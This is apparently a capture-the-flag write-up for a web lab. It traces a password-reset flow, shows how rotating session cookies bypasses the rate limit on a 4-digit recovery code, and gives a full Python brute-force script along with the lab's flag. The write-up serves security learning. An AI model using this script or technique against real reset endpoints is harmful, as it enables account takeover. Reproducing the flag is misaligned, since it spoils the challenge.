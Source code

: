 # Brute forcing 4-digit code

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests

IP = input('[!] Enter the target IP address: ')

N = 8
MAX_CODE = 9999
PORT = 1337
URL = f'http://{IP}:{PORT}'
EMAIL = 'tester@hammer.thm'

headers = {
    'Host': f'{IP}{PORT}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
}


def retrieve_new_session():
    with requests.Session() as s:
        # session is updated automatically
        s.get(f'{URL}/index.php', headers=headers)

    return s


def enter_email(s):
    data = {
        'email': EMAIL
    }

    s.post(f'{URL}/reset_password.php',
           headers=headers, data=data)


def brute_force():

    try:

        # retrieve initial session
        s = retrieve_new_session()

        # enter email
        enter_email(s)

        iterations = MAX_CODE+1

        for i in range(iterations):

            if i % N == 0 and i != 0:
                print('[INFO] Retrieving new PHPSESSID')

                # request for a new PHPSESSID
                s = retrieve_new_session()

                # enter email
                enter_email(s)

            code = f'{i:04d}'

            data = {
                'recovery_code': code,
                's': 200
            }

            print(f'[INFO] Trying code={code}')

            res = s.post(f'{URL}/reset_password.php',
                         headers=headers, data=data)

            res_text = res.text
            res_status_code = res.status_code
            res_content_length = len(res.text)
            req_cookies = s.cookies.get_dict()

            # print(res_text)

            print(f'[INFO] status={res_status_code} content_length={
                res_content_length} cookies={req_cookies}')

            # wrong code
            if 'Invalid or expired recovery code!' in res_text:
                print('[INFO] Wrong code!')

            # valid code found
            else:
                print('[INFO] Success!')
                print(f'code={code}')
                exit()

    except KeyboardInterrupt:
        exit()


brute_force()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
